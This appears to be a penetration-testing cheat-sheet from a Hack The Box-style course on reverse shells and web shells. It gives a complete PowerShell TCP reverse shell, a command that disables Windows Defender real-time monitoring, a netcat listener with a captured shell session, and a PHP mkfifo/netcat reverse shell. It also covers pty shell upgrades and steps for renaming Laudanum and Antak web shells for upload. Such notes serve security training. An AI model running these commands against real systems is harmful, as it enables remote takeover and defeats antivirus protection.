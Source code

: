 ```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
###### Errors
```cmd
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```
Disable AV (Powershell)
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
#### Server (Attacker)
`[/htb]$ sudo nc -lvnp 443`
`Listening on 0.0.0.0 443`
`Connection received on 10.129.36.68 49674`
`PS C:\Users\htb-student> whoami`
`ws01\htb-student`
## Examples
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <VPN-IP>:<VPN-PORT> >/tmp/f"); ?>
```

```bash
nc -lvnp <VPN-PORT>
```
###### Upgrade Shell
```bash
which python3 | which python | which python2
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
# Web Shells
## PHP Web Shells
https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php
## Laudanum
#### Move a Copy for Modification
```shell
cp /usr/share/laudanum/aspx/shell.aspx /home/tester/demo.aspx
```
## Antak
#### Antak Directory
```shell
ls /usr/share/nishang/Antak-WebShell
```
#### Move a Copy for Modification
```shell
cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx
```